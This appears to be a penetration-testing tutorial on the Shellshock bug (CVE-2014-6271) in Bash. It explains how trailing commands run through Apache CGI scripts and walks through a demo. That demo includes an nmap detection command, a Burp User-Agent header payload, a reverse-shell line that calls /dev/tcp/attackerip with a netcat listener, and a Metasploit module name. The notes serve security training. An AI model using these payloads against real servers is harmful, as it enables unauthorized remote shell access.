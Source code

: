 # Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

## CVE-2014-6271 - Shellshock

* Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

## How it works

* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.&#x20;
* This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a \*Nix based operating system.&#x20;
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.&#x20;
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

## Shellshock Exploitation

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.&#x20;
* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.&#x20;
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.&#x20;
* This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Practical Demo

### Manual Exploitation

* <mark style="color:yellow;">nmap -sV targetIP --script=http-shellshock --script-args=http-shellshock.uri=locationofcgiscript</mark>
  * This command tells you if the target is vulnerable to Shellshock vulnerability

### BurpSuite

Enable the proxy, intercept has to be on.

For this vulnerability we will modify the <mark style="color:red;">User-Agent</mark> header.

Send the request to the repeater.

<mark style="color:purple;">NOTE:</mark> FoxyProxy Extension on Chrome is really useful

#### Modified request

* User Agent= '<mark style="color:yellow;">() { :; }; echo; echo;</mark>' /bin/bash -c 'insert here the commands to run'
  * The yellow highlighted character are necessary to trick bash to executing the commands after
  * <mark style="color:purple;">NOTE:</mark> Commands to be executed have to be inside single quotes

#### Reverse shell from shellshock

Open a listener port with netcat

* User Agent= " '<mark style="color:yellow;">() { :; }; echo; echo;</mark>' /bin/bash -c 'bash -i>&/dev/tcp/attackerip/receiverport 0>&1'

### MSF Module

Module used:

* <mark style="color:yellow;">exploit/multi/http/apache\_mod\_cgi\_bash\_env\_exec</mark>

Options to set

Target IP

Target Port

TARGETURI
